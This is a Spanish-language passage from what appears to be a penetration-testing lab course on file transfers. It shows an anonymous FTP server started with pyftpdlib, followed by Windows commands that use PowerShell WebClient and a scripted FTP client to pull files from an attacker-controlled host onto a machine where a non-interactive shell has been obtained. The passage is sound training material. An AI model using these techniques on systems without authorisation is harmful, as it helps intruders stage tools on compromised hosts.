 Luego podemos especificar el número de puerto 21, ya que por defecto **pyftpdlib** utiliza el puerto 2121. La autenticación anónima está habilitada por defecto si no establecemos un usuario y contraseña.

### Configurando un Servidor FTP con Python3

```bash
sherlock28@htb[/htb]$ sudo python3 -m pyftpdlib --port 21

[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```

Una vez configurado el servidor FTP, podemos realizar transferencias de archivos utilizando el cliente FTP preinstalado en Windows o **PowerShell Net.WebClient**.

### Transferir Archivos desde un Servidor FTP Usando PowerShell

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

Cuando obtenemos una shell en una máquina remota, puede que no tengamos una shell interactiva. En ese caso, podemos crear un archivo de comandos FTP para descargar un archivo. Primero, necesitamos crear un archivo que contenga los comandos que queremos ejecutar y luego usar el cliente FTP para ejecutar esos comandos y descargar el archivo.

### Crear un Archivo de Comandos para el Cliente FTP y Descargar el Archivo Objetivo

```cmd
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb> more file.txt
This is a test file
```

## Operaciones de Subida
